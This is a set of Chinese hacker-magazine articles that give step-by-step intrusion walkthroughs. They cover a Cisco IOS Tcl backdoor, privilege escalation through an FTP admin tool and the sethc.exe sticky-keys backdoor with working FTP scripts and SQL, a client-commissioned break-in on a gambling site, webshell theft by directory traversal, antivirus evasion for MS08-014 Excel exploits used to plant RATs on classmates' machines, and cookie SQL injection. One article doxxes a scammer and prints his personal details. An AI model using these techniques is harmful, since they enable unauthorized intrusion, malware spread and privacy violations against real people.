- (3) Tickle 后门代码上传成功后，接着我们就要运行 TclShell.tcl 后门程序了。我们也有多种方法运行 TclShell.tcl 程序，一种是进入到思科 IOS 的 TclSh 模式中，通过命令 `source TclShell.tcl` 来执行；第二种方法是先在全局配置模式下执行 `scripting tcl init TclShell.tcl`，这个命令是指在路由器运行任何 Tcl 文件都会初始运行 TclShell.tcl 程序。然后我们在全局模式下执行任何 `TclSh` 命令即可触发运行 TclShell.tcl 了；最后一种方法是直接在思科 IOS 全局模式下执行 `TclSh TclShell.tcl` 命令。上面所述三种方法各有所长，大家可以随意选用一种方法来实现。
- (4) 最后，TclShell.tcl 运行成功后，就可以测试后门程序运行情况。我们可以直接 Telnet 到路由器上，将直接进入思科 IOS 的命令行接口中，做我们喜欢做的事了！

## 四、思科 IOS 的 Tickle 后门技术实验实例

实验目的：验证思科 IOS 设备的 Tickle 后门技术方法，实验网络拓扑图及描述如图 1。

实验步骤：

1：首先，我们验证网络实验环境情况：黑客电脑和 VictimRouter 可以正常通信，而且黑客电脑已经成功控制 VictimRouter。


图 1

2：接着，我们开启黑客电脑的 TFTP 服务器，并把 TclShell v1.0 复制到 TFTP 服务器目录下，如图 2。

3：然后，我们远程登录到被攻击路由器上，查看信息。


图 2

信息后，然后上传 TclShell.tcl 后门程序代码到 VictimRouter 的 NVRAM 中。

- 4：通过查看 NVRAM 我们发现上传成功，然后我们就可以通过远程终端运行 TclShell。如图 3 所示，注意：上面两个红框中就是上传文件前后的变化，蓝框中就是 TFTP 到路由器上的过程。最后一个红框中就是运行上传的程序文件命令。
- 5：运行成功后，我们就可以 Telnet 到被攻击路由器上，我修改过的 TclShell 的侦听端口号为 5011。登录成功后我们便获得 TclShell 为我们提供的思科 IOS 的独立后门命令行接口，如图 4。图 4 是 TclShell 为我们提供的思科 IOS 的 Shell 命令行界面图，我们发现思科 IOS 设备为 3640 路由器，IOS 版本为 12.4(16a)，登录用户的权限为 15 级，如图 5。
- 6：进入到 TclShell 程序界面，即可运行思科 IOS 命令。如图 6 所示，为“Show Version”命令显示结果。

[TclShell.tcl 已收录在本期光盘中]

# 后记
由于本人水平有限，文中错误在所难免，请兄弟们见谅指正！特别感谢 Antin 对我的帮助和支持！

## 参考资料
- 1. 圣杯：思科 IOS 操作系统 Shell 代码及攻击技术
- 2. 思科 IOS 操作系统的溢出技术介绍
- 3. 思科 IOS 操作系统的 TCL 后门技术
- 4. TCL 命令集

# 编辑点评
我对思科 IOS 一无所知，我能说什么呢？不过可以看出作者的文档写得非常用心，侧面也说明了里边应当没有太多的技术性失误。WWW.NOHACK.CN

---

# 利用 SkyucAdmin FTP 软件再次拿到权限
**作者：gxm [黑色技术]**

**从本文你可以学到：**
- 利用 SkyucAdmin FTP 软件提升权限的方法

大家好，我是 gxm，自从上海自主招生结束后我很懒，为了改掉这个坏习惯，我还是写篇文章来改正，顺便骗点稿费。好了，让我说下我这次的处境。本来自己有个很好的服务器权限，结果突然一天发现他重装系统了，但是这个服务器对我很重要。以前是嗅出来的密码，现在根本就不好用了。翻了下硬盘，惊奇地发现还有自己留的 eval 小马，那么我们再提权吧。

把客户端连接器拿上来，连上小马后，检测了能利用的东西。结果发现 3389 开着、网站里没 SQL 密码，木马列不出服务，也就不能替换服务了。没 pcanywhere、servu，我们很多能利用的东西都没有，手上操作 ms08025 也失败（WS 组件存在），而且各盘的根目录没有写权限。想起来教主给我的那个什么 GUEST 下就能安装的后门，测试一下，失败了，结果一问才知道对 2K 系统有用（其实那东西很老了）。没办法了，但是我不甘心，一般提权都是利用第三方软件。再看下，21 端口开着。本来以为是微软自带的 FTP，谁知道仔细看了下 Program Files 目录里的东西，竟然有个 Skyuc 目录，在里面有个 Skyuc FTP Server，明显的是个 FTP 软件嘛，它本地的管理端口是 14147。但是这个软件我没用过，我知道想提权一定要通过它了。

马上去网上看了个，安装好后仔细研究了一下。SkyucAdmin.xml 文件里的管理密码是明文的，Skyuc.xml 文件里记录了 FTP 用户，但是密码是加密的。不知道这个管理员怎么想的，这下我想有戏了，我们可以通过上传一个免杀的 lcx 软件把 14147 端口转到我这边来，然后自己上去设置下。所以我们还是要对这个 FTP 软件研究下，可不可以像 SU 那样 quote site exec 执行系统命令。结果很失望，研究了一小时都没，如图 1、2 所示。

哎…只有对目录进行设置权限。先不管了，我们先设置一个账号，对 C 盘全部目录有全部权限吧。很简单，上传 lcx，然后 `lcx -slave 我的IP 82 127.0.0.1 14147`，并且在本地监听端口，我设置的是 `lcx -listen 82 2233`，由于是内网，做了端口映射，如图 3 所示。

很好，我本地的 lcx 马上有反应了，打开 SkyucAdmin 管理软件，连接我本地设置的 2233 端口。那服务器的管理员密码用我们的 ASP 小马编辑一下 SkyucAdmin.xml，就可以看见明文密码了。它的格式是：

```xml
<SkyucServer>
<Settings>
<Item name="Last Server Port" type="numeric">14147</Item>
<Item name="Last Server Password" type="string">mima</Item>
```

这里就是密码了~，那 mima 就是：

```xml
<Item name="Always use last server" type="numeric">0</Item>
<Item name="User Sorting" type="numeric">0</Item>
<Item name="Filename Display" type="numeric">1</Item>
<Item name="Last Server Address" type="string">127.0.0.1</Item>
</Settings>
</SkyucServer>
```

呵呵，马上就连接上了。再创建一个对 C 盘有全部权限的账号，主目录设置在 C 盘根目录。好，我们继续想办法，怎么利用这个 FTP。问了下黑色战术内部群，一成员告诉我，在启动目录里自己上传个天使服务端（黑色战术出品的远程控制软件），然后等待管理员的重启，或者等登录 3389。我开始想不错，但是一想不对，那服务器要等他重启要很长时间，而且服务器管理员进入 3389 后是直接关掉那 3389 的窗口的（我长时间控制这服务器，很了解那管理员），所以他的会话没结束，下次进入后还是返回到他上次操作的地方，根本就不会在启动目录执行我们的服务端，这下又无奈了。呵呵，休息一下吧。

一个小时休息时间里，我总是在想这个问题。终于让我想出来了，不知道大家还记得那 5 次 SHIFT 后门吗？那不就是简单的复制、删除就可以完成的嘛。呵呵，但是问题又来了。如果我们通过 FTP 软件的话，那肯定是会被 dllcache 目录的程序再复制过去，我们的时间肯定来不及。所以再想一下，我们就自己写个 txt 文件来处理，然后 `ftp -s:ftp.txt` 来自动完成。呵呵，我是这样写的：

```text
open IP
用户
密码
cd windows
cd system32
put sethc.exe
del c:\windows\system32\dllcache\sethc.exe
cd dllcache
put sethc.exe
bye
```

上面的 sethc.exe 其实就是我们的 CMD。我们先覆盖原本的那个，然后删除 dllcache 里的那个。再进入 dllcache，上传我们的假的 sethc.exe。好了，理论是肯定的，我们现在实验下。

在上传时我们把 CMD 程序重命名为 sethc.exe 放在我们的桌面上，然后打开 CMD，接着 `cd 桌面` 切入桌面，然后 `ftp -s:ftp.txt`。注意：你运行的 ftp.exe 这个程序一定要是放在你那假的 sethc.exe 同一个目录，不然 put 不了 sethc.exe。现在我们就去验证下吧，如图 4 所示。

因为那个时候我没截图，这个是在自己的机器上处理的。然后我们就连接 3389 上去，按 5 次 shift 键，哈哈，顺利地出现了 cmd.exe，如图 5 所示。

哈哈，然后进入远程桌面。我是用 1433 自己创建个很高权限的角色，进去后打开查询分析器，执行如下命令：

```sql
exec master..sp_addlogin 用户名,密码
exec master..sp_addsrvrolemember 用户名,sysadmin
```

然后执行查询就可以了，呵呵，他的 1433 是可以远程连的。我们把创建的账号用 SQL 综合利用工具验证下，如图 6 所示。成功了，呵呵，再上传一个天使服务端，上线了。

# 总结
这次的成功是利用已知的知识来入侵，所以我们的技术要灵活运用才行，有空的话大家不要去图形操作肉鸡，尝试多用下 cmd 来完成我们需要的动作。毕竟在肉鸡上我是经常这么干的，从来不登录 3389，不然很容易被管理员抓到小辫子。好了，文章写好后，明天就要去新学校试读了~，大家 88，有问题或者哪里不对请指教，谢谢。

---

# 巧妙的渗透赌博网站
**作者：netbee201**

**本文重点是作者的入侵思路**

本人不怎么喜欢做教程，文章中写得不好的地方还请见谅。出于安全的考虑，本文中的一些 IP 和网站经过了处理。今天刚上 QQ，有个客户发来一网站 http://www.xxx.com，打开是一个赌博站。客户需要网站的权限，简单看了下，如图 1 所示。

网站全静态，没有可利用的地方。试了很多方法都不行，只好用旁注跨站的方法搞了。打开明小子反查了一下，有 45 个站，如图 2 所示。通过 ewebeditor 漏洞成功拿到同服上的一个网站，服务器开了 3389 但是连不上。开了 Serv-U，但是默认密码改了。查了下组件 wscript.shell 可用，心中窃喜，如图 3。

于是找了个可写目录轻车熟路的上传了个 cmd.exe，一执行提示拒绝访问，如图 4。试了几个目录结果都一样，一时间又陷入困境中。既然 CMD 上没办法突破，我们就先找下目标站的目录吧。Asp 木马权限不够，我换了个 aspx 木马。不看不知道，一看吓一跳，居然有 1300 多个目录，如图 5。

没办法只好一个一个地试了，大概用了 2 个小时终于找到目标站的路径，心想终于搞定了，本来想拿服务器的，这还省事了。可是当我进入那个目录新建一个文件的时候，郁闷的事情又来了，居然提示没权限，如图 6。连续换了几个马，Php 的也试了，Serv-U 由于默认密码被改，软件的目录也没权限访问。难道要我放弃吗？这不是我的风格。从头再来，这个服务器不行，我就搞同段的其他服务器来嗅探，我就不相信我搞不定你。

用了 1 天的时间弄了 2 台同段的肉鸡（为什么要 2 台呢？^_^），由于第一台和目标站不在同一网关下，无法嗅探到数据，第二台虽然在同一网关，但是无法从外部连接 3389（事后才知道这几台服务器都是一家虚拟主机提供商的，所以服务器配置都是一样的！），但是可以利用第一台肉鸡登录第二台，如图 7。

皇天不负有心人啊！马上在第二台肉鸡上打开挚爱 Cain，选好网卡开始嗅探。可是问题又来了，这让我想起一句话：什么事情都有利和弊！我们弄到了服务器，但是它就让你嗅探不到数据，呵呵^_^！，如图 8。我试了 2 天，怎么也嗅探不到 3389 和目标站的 FTP。怎么办呢？都到这步了，难道要放弃吗？还是那句话，这不是我的风格。抽了根烟，突然！！我想到一个思路，这些服务器不都是一个公司的吗？既然都有 Serv-U，虽然默认密码改了，但是我们可以下载 ServUAdmin.exe 到本地通过 UE 编辑软件找出账号和密码呀。哈哈！说干就干。不一会的功夫，密码账号就找到了！如图 9。

很明显，密码账号有了。OK，现在去我们之前弄到的那个 webshell 上测试下效果，如图 10。哈哈，居然终于成功了^_^，马上登录服务器看看战果，如图 11。整个入侵过程就是这样啦，没什么技术含量，只是个思路，就说这么多吧，我也累了，都 3 点了！

# 编辑点评
常规的手法，但是不一样的思路，这样的文章就有点看头了。不过我注意到文章开头的一句话“客户发来一网站”，如果是搞黑色产业的话，我个人是反对的，但并不表示会说些什么，难道说存在即合理？

---

## 曲折的 webshell
**作者：Evilguy [www.starthack.cn]**

**从本文中你要看的是作者拿 webshell 的思路**

前一阵子，一个朋友找我帮忙看下他们学校招生处的网站。反正当时比较闲，就答应下来了。先用 AC5 扫了下网站目录，看扫描结果，也就 image、inc、news、data、databackup 这几个比较“经典”的目录。调用得最多的文件就是 /news/News_View.asp。上 seeknot.com 查了下，有 10 多个结果。我没那功夫去把那 10 多套代码一个一个下过来进行对比，只好继续想别的办法。

在网站根目录后加个 readme.txt 再访问，返回 404 错误（文件不存在），接着加使用说明.txt、软件说明.txt、Readme.html、使用说明.html、软件说明.html 全部都返回 404。这就郁闷了，貌似主站没法下手了？极度郁闷的时候，随手把软件说明.html 最后面的那个 l 给去掉了，没想到软件说明.htm 居然存在（如图 1）。嘿嘿，知道它用的网站程序了：讯时 3.2。弄了一套讯时 3.2 的代码来看了下，顺便也就知道了后台登录入口了：/news/login.asp。试了试 admin/admin888、admin/admin 都没成功。默认数据库是 asp 格式的，打开看下发现了防下载表。唉，人家这么一个 CMS 如果连这点最基本的安全都没做好的话，估计早就没法混了。看到了一个 databackup 目录，估计是用做备份数据库的。

突然想起来，数据库里 admin 表里面默认是有两个用户的。一个是 admin，密码已经被改了；另外一个用户名是 alanxua，密码的 MD5 散列送到 cmd5 查出来也是 alanxua。用后面的这个 alanxua 登录，结果也没成功。这个主站也确实郁闷到家了。不过，我还有最后一招（分析代码除外）：下载备份数据库。翻了下代码，发现备份数据库的文件是 admin 目录下的 admin_db_backup.asp。打开看了下，发现备份的数据库名字默认是 #db1.mdb，当然如果备份的时候管理员改了名字那就另当别论了。所以，在一切都是默认的情况下，备份数据库的完整路径应该就是 /news/databackup/#db1.mdb。当然，用 IE 下载的时候要把那个 # 改成 %23，这个是 URL 编码的原因。地址栏里输入对应的路径，满以为会提示下载，没想到弄出了这么个 500 服务器错误（如图 2）。

截止到现在，这个站似乎没什么希望了。本想试试旁注的，不过 www.myipneighbours.com 查出来的结果让我也放弃了这个念头（如图 3）。没办法，只能玩嗅探了。扫了下同一 C 段的 IP，发现了一个 1433。再用 x-scan 扫了下，居然扫出了个 sa 弱口令（现在已经改了，所以这个地方就不方便截图了），而且开了 3389！赶紧用查询分析器连上去，连 xp_cmdshell 都懒得用了，直接用 sp_oacreate 调用 FSO 组件把 cmd.exe 覆盖掉 sethc.exe，然后连上 3389，按 5 下 shift，出现了可爱的 cmd。Whoami 一看权限，果然是我最爱的 system（如图 4）。嘿嘿，当时太激动，忘记把利用 sp_oacreate 覆盖 sethc.exe 的语句贴出来了：

```sql
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out;
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\cmd.exe' ,'c:\windows\system32\sethc.exe';
-- 大致原理就是调用服务器上的 FSO 组件用 cmd.exe 覆盖 sethc.exe。
```

加用户，提权，终于弄到了一台服务器的权限。虽然说不是目标服务器的 webshell，但是好歹是同一个 C 段了。登录上去之后弄了个 s.exe，扫了下同网段的 80 端口（web 服务）。经过逐个排查，确定了 192.168.100.21 就是目标服务器的内网 IP。祭出 CAIN，在那台服务器上装好，然后就让它呆在那里嗅吧。

过了两天，发现那网站的新闻有更新了，看样子 CAIN 肯定嗅到了什么，3389 上去看下（如图 5）。MD5 散列送到 cmd5.com 查出来明文，和用户名一样也是 8499720。去目标站后台，登录。当时以为这站就这么搞定了，登录进去一看，才知道根本没那么简单。权限小得可怜：除了添加删除新闻，管理一下上传的文件，基本上干不了别的。本来是想把这个号的密码改了，逼 admin 上来，从而嗅到 admin 的密码。但是为了不被对方发现，还是放弃了这一念头。何况就算嗅到了，也就是一堆 MD5 散列，能不能解密还不好说。

在后台转了半天，突然发现，那个上传文件管理，似乎可以研究研究（如图 6）。注意看图 6 地址中 Dir 的值，就是目录 _vti_cnf。如果我把 dir 的值换成别的呢？比如 .. 也就是当前目录的上层目录？继续看图 7，不出所料，就是 news 目录。这个就是讯时的漏洞了：遍历目录。在网站目录里转了 2 分钟，转到了一个前人留下的 webshell。在网站根目录 /news/Databackup 目录下（如图 8），可惜，没密码。

又转了 5 分钟，发现了个好东西（如图 9）。网站根目录下有个 lqcx 目录（最开始的时候用 AC5 扫出来的），可惜没找到后台。现在能够遍历目录，看到了这个，估计是 lqcx 目录的备份。下过来一看，果然是的。顺手翻到了后台，然后打开那个 100 多 MB 的数据库（Access 的），用户名密码都是 admin。不过这毕竟只是备份的，难道现在他们用的还是这个用户名密码？用 admin/admin 登录，居然进去了（貌似这几天运气不错）。

翻了下后台，看到一个“数据信息维护”，什么数据库备份，压缩，恢复，要什么有什么，这下可就方便多了（如图 10）。可以备份数据库的话，看来，连上传都可以省了。为什么？原来那不是有个现成的 webshell 么？我只是不知道密码而已啊。只要备份成 txt 格式，或者备份成可以下载的格式（比如 rar），然后用记事本打开，不就可以拿到密码了吗？

点备份数据库，可惜那个地方根本没法指定要备份的文件名称，于是就换成了恢复数据库。所谓的恢复并不一定是覆盖原数据库，因为它可让我自己填写备份数据库路径和目标数据库路径。因为我是打算把原来那个 webshell 备份成 txt 格式的，所以（如图 11）...

图 12

备份数据库路径就写成了/news/databackup/mm.asp，目标路径就直接写成了/shell.txt， 放到网站根目录，名称为shell.txt（如图11）。

恢复成功，看下网站根目录下存在shell.txt么？确实是存在的，虽然内容有点……不可思议（如图12）。看看源代码就知道了，Asp文件的真正内容都是在<%%>标签里的，而这种标签只会被服务器端解析，客户端（浏览器）没法解析，所以就没显示出来，看看页面源代码就知道了（如图13）。

拿到了密码，再去登录webshell，Success。这次入侵之所以能成功，我感觉最主要的就是那个后台的账号密码和录取查询系统，当然讯时3.2的遍历目录功能也帮了我小小的忙。有了它们，我才找到了前人留下的webshell，以及另一个目录的备份文件，进而利用录取查询系统的恢复数据库功能将前人留下的webshell的密码拿到手，再拿到webshell。


图 13

文章就写到这里，有什么不清楚的地方欢迎在Nohack论坛PM nixilin与我探讨。

编辑点评：
查出是什么系统后应当首先去搜索一下该系统有什么漏洞才对。另外*.asp改成了*.txt，用ie直接打开不显示页面内容并不是作者说的哪个原因，而是ie的一个bug，只要源码里有html标签，无论是什么后缀都会被当作html解析，所以<>里的内容当然不显示了。


某天，小菜我在玩梦幻GAME，游戏中某人加了我的账号，然后找我说是某网站能注册领奖。呵呵，这都骗到我头上来了，我一向恨死骗子的，于是就开始了反骗子之旅。

图 1


他一开始让我去http://reg.txt.cn填写资料然后领取东西，一看就知道只是注册了个txt的cn玉米，根本没什么噱头，如图1所示。

真是XXX，好了，我就开始和他慢慢聊。记得上次买的社会工程学里的（“黑手”的那个本）介绍说，人的性格分好几种，我看来，骗子属于无所谓、比较耐心的一种，那我就利用这个来和他慢慢聊，如图2所示。

图 2


我的GAME里的ID是“龙城之帝”，我就假装不大懂电脑般的聊，为了防止他警惕我而不和我讲话！如图3。

破血狂攻之类的武器比较贵，要知道，一个就要多少大洋啊，估算着，小菜我得写多少文章啊，我就吹嘘：“刚才300W买了个破血”，我假借游戏里的一个活动：“科举要开始了”来拖延时间。我那个时间在干什么呢？！当然是在看骗子网站的结构。在一边看和一边交流的过程中，你会发现很多事，比如网站的一些信息可以随时从对方的口中知道，然而对方没料到的是：我不是电脑白痴！我们来看下他建站的信息吧。

图 3

首先，他选择了个免费空间，用location来实现跳转，达到欺骗的效果，如图4。


图 4

很逼真的东西，还冒充奥运，这类人不应该在这个世界上，在文章最后你会知道我为什么这么说，如图5所示。


图 5


这个页面相当逼真，不知道的人一定很顺手的写上去了。随便加了个单引号上去提交，对方的页面到了 yahoo 的某东西上去，貌似是通过 xss 的 urlcode 加密的站，弹出个 ok 的对话框，呵，现在这个潜在的外部 xss 也被他利用上了。这个先不管，我也和他一起在那个免费空间注册了个账号，用户为 xiaoshua（少了 i），然后成功注册后去看管理页面，如图 6 所示。

一看能上传，好，我们开始上传。哪有那么简单就上传上去的啊，当管理员是白痴吗！这个问题困扰了我很久，当上传的东西为一句话或者木马之类的马上提示错误，如图 7 所示。


我就想了，这个能在线编辑，试着把 html 换成 asp 的扩展名，然后写 "<script languge=vbscript runnat=server>execute request("fuckj")</script>"。这样的好处就是避开了 asp 脚本标记。但是不幸发生了，貌似做了措施，无论怎样，后面总会被系统插入什么，然后提示就变成了 Microsoft VBSCRIPT 编译器错误 错误 '800a0408'，这个不知道怎么办。难道就这么放弃了？我才不会，我最最最痛恨骗子了！想了下，这个空间会不会是全能的呢？支持全部脚本的吧？最后用 php 一句话在线 2 次加密，拿到了 webshell，如图 8 所示。


我不大习惯这个连接端，因为反应比较慢。下载了个 angel 的 spy2008 观察之，其实在脑子里就要想好下一步棋怎么样走。我选择了找这个网站的数据库，不知道为什么，总觉得对网站检测多了就比较顺手了，找到了 conn.asp 看到了数据库，如图 9 所示。

```asp
End Function
if not IsObjInstalled("Scripting.FileSystemObject")
    Response.Write "<b><font color=red>你的服
    Response.End
end if
dim conn,connstr,db
db="cyweb/cyweb.cn.asp" '数据库文件位置
on error resume next
connstr="DBQ="&server.mappath(db)&";DefaultDir=;DRIV
set rs=server.createobject("ADODB.Recordset")
set fso = createobject(Const_ScriptFileSystem)
set conn=server.createobject("ADODB.CONNECTION")
if err.number<>0 then
```

图 9

接下来就不需要我多说了，既然他注册了账号，那数据库里肯定有信息啦，但是目录很多，我就开始核对时间。测试时间，我是 5 月 11 号注册的，知道他的用户是 mhxy，因为大家看我的上传页面的路径里有个 xiaoshua，也就是部分路径是按照你的 username 写的。找到了最新的数据库后就下载下来，然后看 user 表去了，如图 10 所示。


大家稍微仔细看下就知道，最后有个用户 "xiaoshua"（小刷）就是我，因为少了个 i 注册的用户，编码 11963 的 mhxy 就是 "梦幻西游" 的缩写了，目标就是他，然后拿出密码开始跑，成功跑出了 MD5，如图 11。


看了下的资料，姓名是：李安。不确定真假，用这个密码去登录他的 cnzz 统计，无法登录，那就算了，其实这个 user 表里有很多的 xy163 之类的账户，因为梦幻西游的官方网站就类似 xy3.163 之类的，看来可能是团伙作案，呵呵。数据库的作用很大，继续找信息，李安，男，32 岁，广东人，邮箱：tyty_XXXX@126.com；描述为：梦幻西游，最后登录 IP 为：125.90.101.45，为了确认他的资料是否正确，我们只要看下他的 IP 地址就行了，查了下 IP，结果如图 12 所示。


的确是广东茂名市的人，这样的话前面填写的资料的信任度应该为 80% 了，E-mail 是大家喜欢的东西，因为它能搜到更多的信息。于是开始 baidu 和 google，没搜到任何信息，看来是个不混论坛的人。试着用 20151120 这个密码进他的邮箱吧，没想到进去了，嗯，看了下，资料满齐全的，这个人也是个玩梦幻的人，于是我开始更深入的社工他，道理很简单：我讨厌骗子，结果如图 13。


偶滴娘喂~~这个人真是个坏蛋啊！十足的大坏蛋，男人不是坏蛋，骗子才是坏蛋！各位女同胞们以后别再骂男人了，男人也有尊严……跑题了，这个里面有信，其中有个信里比较有价值的就是：

> 尊敬的 韩永金 你好：
> 您的将军令已于 2007 年 09 月 02 日 09 点 33 分 被启用，您填写了如下注册信息：
> 用户姓名：韩永金
> 证件类型：身份证
> 证件号码：440981199010******
> 移动电话：
> 固定电话：066XXXX
> 电子邮箱：tyty_005@126.com
> 通信地址：广东茂名市湖街 5XXX 号
> 邮政编码：525200
> 您的将军令信息如下：
> 制造日期：2007 年 07 月 24 日 03 点 31 分
> 启用日期：2007 年 09 月 02 日 09 点 33 分
> 过期日期：2010 年 07 月 24 日 00 点 00 分
> 当前状态：正常
> 状态改变时间：2007 年 09 月 02 日 09 点 33 分
> 祝您使用愉快！
> 网易将军令客户服务中心
> 2007 年 09 月 02 日 09 点 33 分

仔细看下，韩永金这个名字肯定是韩国的，因为推行了防沉迷的系统，所以他随便找个身份证就行，他的名字叫李安。固定电话什么的可以申诉，于是就跑去 163 了，可惜申诉不到。这个时候我想到了电话，电话如果……能把来电显示换成北京网监的就好了，我记得“黑手”的社工书上有个叫秦力的人知道怎么破解。小菜我不会，听说那东西 580 块一个，我比较穷。就不忽悠那个人了，上 Game 在游戏里一贴，XX 是骗子，证据 XX，我的责任完了。然后把他的骗子页面全部改个版本，如图 14 所示。


图 14

编辑点评：
这篇文章让我想起一件事，几年前免费空间盛行就是落伍者论坛（当时它算是一个专门介绍免费空间站的论坛）最风光的时候，我常去注册免费空间然后传 webshell 下数据库看人家资料。某一天落伍者论坛有一个人和我吵架，我就用他免费空间的注册密码成功登录下他在落伍者论坛的 ID，然后用他的 ID 给我发了一张道歉的贴子，哎，年少轻狂，现在想起来真好笑。不过顺便我也社工一下，作者的文笔明显有点稚嫩，所以我断定作者年纪不会超过 18 岁，也就是说未成年，哈哈。

# MS08-014 漏洞接触

Anyele

本文你可以学习到 ms08014 生成文件的免杀

先来看看微软公布的漏洞简介：

Microsoft 安全公告 MS08-014 - 严重：
Microsoft Word 中的漏洞可能允许远程执行代码
发布日期： 三月 11，2008
受影响版本：
- Microsoft Office 2000 Service Pack 3
- Excel 2000 Service Pack 3
- Microsoft Office XP Service Pack 3
- Excel 2002 Service Pack 3
- Microsoft Office 2003 Service Pack 2
- Excel 2003 Service Pack 2
- 2007 Microsoft Office System
- Microsoft Office Excel Viewer 2003
- Microsoft Office 2004 for Mac
- Microsoft Office 2008 for Mac

受影响的版本还是很多的，好象在更新的时候没有发现这个补丁，我用的是360安全卫士，顺便发给几个同学实验，绑的鸽子都上线了，看来这个漏洞危害还是很大的。来看看利用方法。


图 1

这是利用工具（如图1），其中 1.exe 是我给工具取的名字（为了方便输入），.xlsfile 是 xls 文件，exefile 是应用程序，鸽子啊，下载者啊什么都可以，按照这个方法做成一个文件（如图 2）。当显示 Generating 11.xls exploits file!!，文件做成了，运行一下，鸽子成功上线（如图 3）。


图 2


图 3

这个漏洞用来找肉鸡非常方便，利用途径由大家自己发挥，剩下的就是免杀的问题了。将已经生成的 XLS 文件用 MYCCL打开，分块稍微大点（如图 4），杀完以后点二次处理，再次查杀。没有发现病毒。在特征区间中精确定位，发现分块数 1224，还是太大，重复刚刚的方法，直到 1 个为止（如图 5）。


图 4


图 5

特征码定出来了（前提是你的木马要免杀，这样更方便定位），特征码、物理地址 / 物理长度如下：

[ 特 征 ]
00000FCE_00000002
用 c32 打开切换到汇编模式（图 6）找到 00000FCE


图 6

原来的命令是 ADD，既然是加，那就把他改成减试试。如果代码在程序的函数段，可以修改大小写免杀，不在的话可以直接填 00，完成以后再用卡吧查杀（如图 7）。已经免杀了，运行后鸽子继续上线，免杀成功。此篇漏洞利用是 vicky 大哥的，感谢他把漏洞发布出来。

[ms08014.exe 已收录在本期光盘]

编辑点评：
生成器不是重点，关键是免杀，这样老漏洞就焕发青春了。


图 7

## 初探 COOKIE INJECTION

从本文你可以了解一下 cookie 注入的原理

最近我在拿一个站，有一个防注入系统挡住了我的注入。经过分析代码得知，防注入系统过滤了 get 和 post 提交的变量，于是我就使用 Cookie 注入。COOKIE 注入在普通注入被过滤的时候是个好的途径，所以抽空对漏洞的产生研究了一下，顺便在 GOOGLE 里面找了一下看看是否有这方面的文章。找了好一阵子，终于还是让我看到一篇文章《COOKIE 注入是怎么产生的》，作者不记得是哪位了，貌似是啊 D。呵呵，不好意思，本人确实比较健忘。多感慨一句，很多年了，还是非常感谢他们这些前辈，是他们使我们玩黑的门槛低了很多。这篇文章说的很笼统，只是大概的说一下漏洞是如何产生的，也不知道是不是 COPY 人的不负责，很多的地方也没有说清楚。不过最后找到啊 D 的 BLOG 看到了这篇文章，感觉似乎也很笼统哦。呵呵，看来错怪了 COPY 的人了。:-)

先说明一下 COOKIE 产生满足的条件：一是提取表单变量是这样的形式 request("")；二是防注入系统没有检测 COOKIE；三是没有对赋值后的变量进行过滤，例如：

```vbscript
function char1(str)
str=replace(str, "and", "")
str=replace(str, "select", "")

char1=str
end function
id=int(char1(request("id")))
```

接着详细点的来说下。第一个条件，是因为程序员的偷懒，习惯将 request.querystring("")[get 方式] 或者 request.form("")[post 方式]写成了 request("")这样的形式而产生注入。服务器执行 request("")的时候是按照 request.querystring-->request.form-->request.cookie 的顺序来提取单传过来的值，就是说如果没有检测到 querystring[get 方式]和 from[post 方式]就会去看 COOKIE 是否有值，这样就满足了第一个条件。当然啦！如果没有防注入系统我们就不用 COOKIE 注入了，操工具上就是了 o(∩_∩)o...

第二个条件就是防注入系统了，我下一个大家来看：

```asp
<%
Dim GetFlag '提交方式
Dim ErrorSql '非法字符
Dim RequestKey '提交数据
Dim ForI '循环标记
ErrorSql = "' ; ~ -- and ( ) "
'每个敏感字符或者词语请使用半角 "~" 隔开-----------定义了一些常用敏感字符
ErrorSql = split(ErrorSql, "~")
If Request.ServerVariables("REQUEST_METHOD") = "GET" Then '判断提交方式。如果是get方式就继续下面的判断，不是那就没这个注入系统的事了。
GetFlag=True
Else
GetFlag=False
End If
If GetFlag Then
For Each RequestKey In Request.QueryString '检查 QueryString 是否包含敏感字符
For ForI=0 To Ubound(ErrorSql)
If Instr(LCase(Request.QueryString(RequestKey)), ErrorSql(ForI))<>0 Then
```


```asp
response.write "<script>alert('" " 自由警告：\n 请不要使用敏感字符 " "');location.href=""Sql.asp"";</script>"
Response.End
End If
Next
Next
Else
For Each RequestKey In Request.Form '检查 Form 是否包含敏感字符
For ForI=0 To Ubound(ErrorSql)
If Instr(LCase(Request.Form(RequestKey)), ErrorSql(ForI))<>0 Then
response.write "<script>alert('" " 自由警告：\n 请不要使用敏感字符 " "');location.href=""Sql.asp"";</script>"
Response.End
End If
Next
Next
End If
%>
```

我加了一些注释，能看懂就行。显然，防注入系统忽略了 COOKIE 提交的数据。第三个条件，我想如果用了防注入系统的话，很少再去过滤了吧。如果碰到过滤，那也只能放弃了。说完 COOKIE 注入形成的条件，再来看看 COOKIE 的注入方法。注入语句为：

```javascript
javascript:alert(document.cookie="id="+escape("XXX and 1=1"));
```

简单的说就是把 XXX 保存到 Cookie 的 ID 中，然后弹出来。如果大家连 COOKIE 都不知道是什么的话，就快去翻以前 NOHACK 的杂志了。为了大家更直观的弄明白，我自己写了个有 COOKIE 漏洞的文件用来分析。本来是在本地测试的，我的 IIS 老是出问题，可是到我朋友 KISS 那测试没问题。哎，没办法，现在只能牺牲一下自己的 blog 空间了(我是连老本都用上了哦)。
先看看我写的 ASP 程序：

- 1. asp 内容:

```html
<a href='2.asp?id=1'>测试</a>
```

这个都看的懂吧。一个超链接，点击就会把参数 ID=1 传给 2.asp 来处理。

- 2. asp 内容:

```asp
<!-- #include file = "上面提到的防注入系统.asp" -->
<%
set conn=server.createobject("adodb.connection")
DSNtemp = "Driver={Microsoft Access Driver (*.mdb)};"
``````asp
DSNtemp = DSNtemp & "DBQ=" & server.mappath("cs.mdb")
conn.open DSNtemp '连接并打开数据库
id = request("id") '读取1.asp传过来的参数
stext = "select * from 测试 where id='" & id & "'" 'id为字符型，没经过任何过滤哦
response.write stext '方便大家看到SQL执行内容
set rs = conn.execute(stext) '执行SQL
response.write ("<p color='red'><h4>" & rs("欢迎内容") & "</p>") '读取数据表字段为欢迎内容
rs.close
conn.close
%>
```

运行，单击超链接“测试”，就会跳转到 2.asp?id=1，如图1所示。

图1

这种链接是不是很熟悉？通常情况下，我们测试SQL注射，都是先在后面加个单引号提交看看有什么结果。瞧，提示非法用户了，555\~\~\~~（如图2）

图2

